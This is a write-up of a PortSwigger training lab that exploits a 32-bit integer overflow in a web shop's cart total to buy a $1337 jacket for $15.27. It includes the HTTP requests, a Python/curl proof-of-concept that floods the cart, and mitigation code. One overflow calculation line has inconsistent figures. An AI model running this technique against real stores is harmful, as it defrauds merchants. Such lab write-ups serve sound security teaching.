

# Lab 05: Low-Level Logic Flaw

> **Topic**: Business Logic Vulnerabilities
> **Lab Number**: 05
> **Platform**: PortSwigger Web Security Academy

## Category
Business Logic — Integer Overflow in Cart Price Accumulator (32-bit Signed Integer Wrap-Around)

## Vulnerability Summary
The application stores the cart's running total as a 32-bit signed integer. There is no upper bound validation on item quantity per request (max 99 per POST) and no cap on how many times an item can be added. By sending enough POST `/cart` requests to accumulate a quantity whose total price exceeds `INT_MAX` (2,147,483,647 cents), the value wraps around to a large negative number. A second cheap item is then added in a precise quantity to bring the signed total into the range $0–$100, which falls within the user's store credit, allowing the order to be placed for free.

## Attack Methodology

### Step 1: Identify the Overflow Boundary
The jacket costs **$1337.00 (133,700 cents)**. The 32-bit signed integer maximum is **2,147,483,647**. Adding enough jackets causes the total to overflow and become negative.

Intercepted the add-to-cart request in Burp Repeater:

```http
POST /cart HTTP/2
Host: 0ac9002404fd05b380240d62003a001c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

productId=1&redir=PRODUCT&quantity=99
```

Maximum quantity per request is **99** (server rejects higher values).

### Step 2: Calculate the Required Quantity

The server recalculates the total as `quantity × price` stored as a 32-bit signed integer on every cart view. The goal is to find a jacket quantity `n` such that:

```
(n × 133700) mod 2³² interpreted as signed 32-bit ∈ [-2,147,483,648, 0)
```

Then find a cheap filler item quantity `m` such that:

```
(n × 133700 + m × filler_price) mod 2³² as signed ∈ [0, 10000]
```

**Calculation:**
- 323 batches of 99 + 47 individual = **32,024 jackets total**
- `32024 × 133700 = 4,281,608,800` → as signed 32-bit: **-$133,584.96**
- Need filler worth **+$133,584.96 to +$133,684.96** to land in $0–$100
- **1,611 units of productId=20 ($82.93)** → `1611 × 8293 = 13,360,323 cents`
- Final total: **$15.27** ✅ (within $100 store credit)

### Step 3: Flood the Cart with Jackets
Sent 323 automated POST requests with `quantity=99`, then one final request with `quantity=47`:

```http
POST /cart HTTP/2
Content-Type: application/x-www-form-urlencoded

productId=1&redir=PRODUCT&quantity=99
```
× 323 times, then:
```http
POST /cart HTTP/2
Content-Type: application/x-www-form-urlencoded

productId=1&redir=PRODUCT&quantity=47
```

Cart total after 32,024 jackets: **-$133,584.96** (overflow confirmed).

### Step 4: Add Filler Item to Land in $0–$100
Added 1,611 units of another product ($82.93 each) in batches of 99:

```http
POST /cart HTTP/2
Content-Type: application/x-www-form-urlencoded

productId=20&redir=PRODUCT&quantity=99
```
× 16 times, then `quantity=27`.

Cart total: **$15.27** ✅

### Step 5: Place the Order

```http
POST /cart/checkout HTTP/2
Content-Type: application/x-www-form-urlencoded

csrf=<token>
```

Response: **302 → lab solved**. Store credit deducted: $100.00 → $84.73.



## Technical Root Cause

### Vulnerable Implementation (Pseudocode)
```python
def get_cart_total(cart):
    total = 0
    for item in cart.items:
        total += item.quantity * item.price  # unchecked 32-bit int addition
    return total  # silently overflows if > INT_MAX
```

Two missing controls:
1. No maximum quantity per item or per order
2. No overflow check — the language/runtime silently wraps the integer

### Secure Implementation (Pseudocode)
```python
MAX_QUANTITY = 100
INT_MAX = 2_147_483_647

def add_to_cart(cart, product, quantity):
    if quantity > MAX_QUANTITY:
        raise ValidationError("Quantity exceeds limit")
    new_qty = cart.get_quantity(product) + quantity
    new_total = cart.total + quantity * product.price
    if new_total > INT_MAX or new_total < 0:
        raise ValidationError("Order total out of bounds")
    cart.update(product, new_qty, new_total)
```

### Integer Overflow Mechanics

```
32-bit signed int range: -2,147,483,648 to +2,147,483,647

32,024 × 133,700 = 4,281,608,800
4,281,608,800 - 4,294,967,296 (2³²) = -13,358,496  → -$133,584.96

-13,358,496 + 13,360,323 (1611 × 8293) = 1,827  → $15.27 ✅
```

## Impact
- **Full Price Bypass**: Any item can be purchased for near-zero cost regardless of price
- **No Rate Limiting**: The server accepts unlimited cart additions with no throttling
- **Arithmetic Exploit Without Tampering**: No request values are modified — only the quantity of legitimate add-to-cart requests is controlled

**Severity: High**

## Proof of Concept

```python
import subprocess

BASE = "https://<lab-id>.web-security-academy.net"
COOKIE = "/tmp/cookies.txt"

def add(pid, qty):
    subprocess.run(["curl", "-s", "-b", COOKIE, f"{BASE}/cart",
                    "-d", f"productId={pid}&quantity={qty}&redir=PRODUCT"],
                   capture_output=True)

# 32,024 jackets → overflow to -$133,584.96
for _ in range(323):
    add(1, 99)
add(1, 47)

# 1,611 filler items → total lands at $15.27
for _ in range(16):
    add(20, 99)
add(20, 27)

# Place order
subprocess.run(["curl", "-s", "-b", COOKIE, f"{BASE}/cart/checkout",
                "-d", "csrf=<token>"], capture_output=True)
```

## Key Takeaways
1. **Integer Overflow Is a Business Logic Flaw**: This isn't a memory corruption bug — it's a failure to validate that a computed price remains within a meaningful range. The server accepted a negative cart total as valid input for checkout.
2. **Quantity Must Be Bounded End-to-End**: Limiting per-request quantity (99) is not sufficient if there is no limit on cumulative quantity per order or per session.
3. **Validate Final State Before Charging**: The checkout step must re-derive and validate the total server-side. A total of $15.27 for 32,024 units of a $1337 item should be rejected outright.
4. **Use Arbitrary-Precision or Saturating Arithmetic for Money**: Financial totals must never silently overflow. Use `decimal`/`BigDecimal` types or add explicit overflow guards.

## Mitigation

### 1. Cap Quantity Per Order
```python
if cart.total_quantity(product) + quantity > 1000:
    raise ValidationError("Maximum order quantity exceeded")
```

### 2. Overflow-Safe Total Calculation
```python
import decimal
def get_cart_total(cart):
    total = decimal.Decimal(0)
    for item in cart.items:
        total += decimal.Decimal(item.quantity) * decimal.Decimal(item.price)
    if total < 0 or total > decimal.Decimal('999999.99'):
        raise ValidationError("Invalid order total")
    return total
```

### 3. Server-Side Checkout Validation
```python
def checkout(cart, claimed_total):
    actual_total = get_cart_total(cart)
    if actual_total != claimed_total or actual_total < 0:
        raise ValidationError("Order total mismatch")
    charge(actual_total)
```

## References
- [PortSwigger — Low-Level Logic Flaw](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-low-level)
- [PortSwigger — Business Logic Vulnerabilities](https://portswigger.net/web-security/logic-flaws)
- [CWE-190: Integer Overflow or Wraparound](https://cwe.mitre.org/data/definitions/190.html)
- [OWASP — Business Logic Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Business_Logic_Security_Cheat_Sheet.html)

## Tools Used
- Burp Suite Professional (Repeater)
- Python 3 + curl (automated cart flooding)

---

*Lab completed on: 2026-05-04*  
*Writeup by vibhxr*
